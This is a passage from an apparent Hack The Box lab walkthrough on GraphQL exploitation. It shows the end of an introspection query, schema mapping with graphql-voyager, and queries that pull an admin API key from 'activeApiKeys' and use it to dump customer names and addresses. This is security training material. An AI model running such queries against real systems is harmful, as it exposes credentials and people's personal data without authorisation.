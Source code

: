 ```graphql
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

Subsequently, students will use [graphql-voyager](https://graphql-kit.com/graphql-voyager/), change the schema to introspection, and copy and paste the output from the previous GraphQL query into graphql-voyager to parse the data:

![[HTB Solutions/Others/z. images/2822119225ef5e98f0ed4d50dd7d4868_MD5.jpg]]

Students will be presented with a visualization of the queries and objects:

![[HTB Solutions/Others/z. images/04e5edddb8b229d831940205901d2c07_MD5.jpg]]

Next, students will notice the `activeApiKeys` object, and they will query it to obtain the API key `0711a879ed751e63330a78a4b195bbad` for the `admin` role using the following query on the target and take note of it:

Code: graphql

```graphql
{
	activeApiKeys {
		id
		role
		key
	}
}
```

![[HTB Solutions/Others/z. images/49f100a891628f79f49cfebb2fa1e46a_MD5.jpg]]

Subsequently, students will query the `allCustomers` object to gain information about the customers such as `id`, `firstName`, `lastName`, and `address` with the API key found earlier using the following query and take note of the customer's `firstName` and `lastName` values:

```graphql
{
	allCustomers (apiKey: "0711a879ed751e63330a78a4b195bbad") {
		id
		firstName
		lastName
		address
	}
}
```
